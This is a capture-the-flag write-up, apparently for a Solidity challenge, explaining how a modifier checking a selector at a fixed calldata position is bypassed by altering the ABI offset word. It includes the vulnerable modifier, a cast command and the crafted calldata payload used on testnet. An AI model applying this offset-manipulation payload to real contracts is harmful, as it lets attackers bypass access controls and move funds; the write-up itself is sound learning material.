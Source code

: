 # Calldata, calldata

As the hint suggests, the trick is to really understand `calldata` encoding, especially when a dynamic datatype is involved.

[This article helped me understand complex calldata encoding](https://r4bbit.substack.com/p/abi-encoding-and-evm-calldata)

# The hack

The `modifier` always assumes that the function selector at the 69-72 bytes will be the `selector` that will be passed in.

```solidity
 modifier onlyOff() {
        // we use a complex data type to put in memory
        bytes32[1] memory selector;
        // check that the calldata at position 68 (location of _data)
        assembly {
            calldatacopy(selector, 68, 4) // grab function selector from calldata
        }
        require(selector[0] == offSelector, "Can only call the turnOffSwitch function");
        _;
    }
```

But crucially, when encoding a complex datatype, the first 32 byte word after the selector gives an offset, for when to start reading the arguments, so to speak.

If we just pass in the selector for `switchOff` as argument for `flipSwitch()`, using `cast calldata`, we get a vanilla calldata

`cast calldata "flipSwitch(bytes memory)" 0x20606e15`

gives

`0x30c13ade0000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000420606e1500000000000000000000000000000000000000000000000000000000`

Which can be divided into

```
0x30c13ade
0000000000000000000000000000000000000000000000000000000000000020
0000000000000000000000000000000000000000000000000000000000000004
20606e1500000000000000000000000000000000000000000000000000000000
```

The first element is the `flipSwitch()` selector, the second is the offset, which basically is asking to start reading after the first 32 byte word, the third is the size and the fourth the actual bytes array.

The important bit is the first 32 byte word: we could change it to shift attention to somewhere else, without changing the `switchOff()` selector's location in the calldata.

So here's the calldata I used:

```
0x30c13ade
0000000000000000000000000000000000000000000000000000000000000060
0000000000000000000000000000000000000000000000000000000000000004
20606e1500000000000000000000000000000000000000000000000000000000
0000000000000000000000000000000000000000000000000000000000000004
76227e1200000000000000000000000000000000000000000000000000000000
```

which asks the EVM to look for the arguments after a 0x60 byte offset, skipping the `switchOff()` selector and effectively passing in the `switchOn()` selector.

And in order to pass this in, a new contract was deployed which can call any contract with any calldata, which is basically general-purpose, and is deployed [here](https://sepolia.etherscan.io/address/0x6a86b69deb94fa740e66ace6ec1a0e8105129ce9#code).

